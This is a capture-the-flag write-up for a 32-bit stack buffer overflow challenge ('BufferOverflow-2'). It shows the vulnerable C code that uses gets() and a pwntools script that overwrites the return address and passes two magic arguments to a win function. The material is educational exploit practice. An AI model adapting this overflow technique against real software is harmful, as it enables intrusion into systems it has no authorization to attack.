

# BufferOverflow-2

Challenge Description:

> Control the return address and arguments and this time you'll need to control the arguments to the function you return to!.

> Hint1 : Try using GDB to print out the stack once you write to it.

## Analyzing code

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Similar to the previous challenges,gets() is called and the win function requires 2 arguements to print out the flag.
Arg1 = `0xCAFEF00D`
Arg2 = `0xF00DF00D`

In 32 bit architecture,arguements are passed using the stack itself unlike in 64 bit which uses registers. So when we overflow using gets,the stack should like shown below....

    Padding(Some no of bytes found using gdb/others)						Lower address
    Win_function_address
    Win_function_return_address(Does not matter in this case)
    Arg1(0xCAFEF00D)
    Arg2(0xF00DF00D)														Higher address

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Finding offset and creating exploit

The offset found was 112 bytes and the script written is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
p = elf.process()
#p = remote("saturn.picoctf.net", 50938)

win_function = 0x08049296

padding = b'A'*112

payload = padding
payload += p32(win_function)
payload += p32(0x41414141)	# Where will win return
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

